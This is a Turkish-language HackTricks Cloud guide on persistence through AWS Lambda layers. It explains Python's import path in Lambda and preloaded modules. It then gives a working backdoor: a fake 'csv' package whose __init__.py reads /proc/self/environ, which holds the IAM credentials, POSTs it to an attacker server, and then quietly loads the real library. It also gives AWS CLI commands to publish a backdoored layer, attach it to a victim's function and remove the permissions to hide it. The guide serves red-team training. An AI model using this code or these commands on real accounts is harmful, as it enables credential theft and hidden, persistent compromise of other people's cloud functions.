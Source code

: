 # AWS - Lambda Katmanları Sürekliliği

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Lambda Katmanları

Bir Lambda katmanı, **ekstra kod** veya diğer içerikleri **içerebilen** bir .zip dosyası arşividir. Bir katman, kütüphaneler, [özel çalışma zamanı](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), veri veya yapılandırma dosyaları içerebilir.

Her işlev için **beş katmana kadar** dahil etmek mümkündür. Bir katmanı bir işlevde dahil ettiğinizde, **içerikler yürütme ortamındaki `/opt`** dizinine çıkarılır.

**Varsayılan olarak**, oluşturduğunuz **katmanlar** AWS hesabınıza **özel**dir. Bir katmanı diğer hesaplarla **paylaşmayı** veya katmanı **genel** hale getirmeyi seçebilirsiniz. İşlevleriniz, farklı bir hesap tarafından yayımlanan bir katmanı tüketiyorsa, işlevleriniz **katman silindikten sonra veya katmana erişim izniniz geri alındıktan sonra katman sürümünü kullanmaya devam edebilir**. Ancak, silinmiş bir katman sürümünü kullanarak yeni bir işlev oluşturamaz veya işlevleri güncelleyemezsiniz.

Konteyner görüntüsü olarak dağıtılan işlevler katmanları kullanmaz. Bunun yerine, görüntüyü oluşturduğunuzda tercih ettiğiniz çalışma zamanı, kütüphaneler ve diğer bağımlılıkları konteyner görüntüsüne paketlersiniz.

### Python yükleme yolu

Lambda'da Python'un kullanacağı yükleme yolu şudur:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Kontrol edin nasıl **ikinci** ve üçüncü **pozisyonlar** **lambda katmanlarının** dosyalarını açtığı dizinler tarafından işgal ediliyor: **`/opt/python/lib/python3.9/site-packages`** ve **`/opt/python`**

{% hint style="danger" %}
Eğer bir saldırgan kullanılan bir lambda **katmanına** **arka kapı** koymayı veya **bir tane eklemeyi** başarırsa ve bu, **yaygın bir kütüphane yüklendiğinde rastgele kod çalıştırıyorsa**, her lambda çağrısında kötü niyetli kod çalıştırabilecektir.
{% endhint %}

Bu nedenle, gereksinimler şunlardır:

* **Kurbanın kodu tarafından yüklü olan kütüphaneleri kontrol et**
* **Özel kodu çalıştıracak ve orijinal** kütüphaneyi **yükleyecek bir proxy kütüphanesi oluştur.**

### Önceden yüklenmiş kütüphaneler

{% hint style="warning" %}
Bu tekniği kötüye kullanırken bir zorlukla karşılaştım: Bazı kütüphaneler kodunuz çalıştırıldığında python çalışma zamanında **zaten yüklenmiş** durumda. `os` veya `sys` gibi şeyler bulmayı bekliyordum, ama **hatta `json` kütüphanesi bile yüklüydü**.\
Bu kalıcılık tekniğini kötüye kullanmak için, kodun çalıştırıldığı sırada **yüklenmemiş yeni bir kütüphaneyi yüklemesi** gerekiyor.
{% endhint %}

Bu gibi bir python kodu ile lambda'da python çalışma zamanında **önceden yüklenmiş kütüphanelerin listesini** elde etmek mümkündür:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Ve bu **liste** (kütüphanelerin `os` veya `json` gibi zaten orada olduğundan emin olun)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Ve bu, **lambda'nın varsayılan olarak yüklediği kütüphaneler** listesidir: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Arka Kapı

Bu örnekte, hedef kodun **`csv`**'yi içe aktardığını varsayalım. **`csv` kütüphanesinin içe aktarımına arka kapı koyacağız**.

Bunu yapmak için, **`/opt/python/lib/python3.9/site-packages`** yolunda **`__init__.py`** dosyası ile birlikte **csv** dizinini **oluşturacağız**.\
Daha sonra, lambda çalıştırıldığında ve **csv**'yi yüklemeye çalıştığında, **`__init__.py` dosyamız yüklenecek ve çalıştırılacaktır**.\
Bu dosya şunları yapmalıdır:

* Yükleme yükümüzü çalıştırmak
* Orijinal csv kütüphanesini yüklemek

Her ikisini de şu şekilde yapabiliriz:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Sonra, bu kodu **`python/lib/python3.9/site-packages/__init__.py`** yolunda bir zip dosyası oluşturun ve bunu bir lambda katmanı olarak ekleyin.

Bu kodu [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) adresinde bulabilirsiniz.

Entegre yük, **ilk kez çağrıldığında veya lambda konteynerinin sıfırlanmasından sonra IAM kimlik bilgilerini bir sunucuya gönderecektir** (kod değişikliği veya soğuk lambda), ancak **aşağıdaki gibi diğer teknikler** de entegre edilebilir:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Harici Katmanlar

**Harici hesaplardan lambda katmanları kullanmanın mümkün olduğunu** unutmayın. Ayrıca, bir lambda, izinleri olmasa bile harici bir hesaptan bir katmanı kullanabilir.\
Ayrıca, bir lambda'nın sahip olabileceği **maksimum katman sayısının 5 olduğunu** unutmayın.

Bu nedenle, bu tekniğin çok yönlülüğünü artırmak için bir saldırgan şunları yapabilir:

* Kullanıcının mevcut bir katmanını arka kapı ile ele geçirmek (hiçbir şey harici değil)
* **Kendi hesabında** bir **katman oluşturmak**, **kurban hesabına** katmanı kullanma erişimi vermek, **katmanı** kurbanın Lambda'sında **yapılandırmak** ve **izinleri kaldırmak**.
* **Lambda**, **katmanı** **kullanabilmeye** devam edecek ve **kurban**, **katman kodunu indirmek için** kolay bir yol bulamayacak (lambda içinde bir rev shell almanın dışında)
* Kurban, **`aws lambda list-layers`** ile kullanılan harici katmanları **görmeyecek**.

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
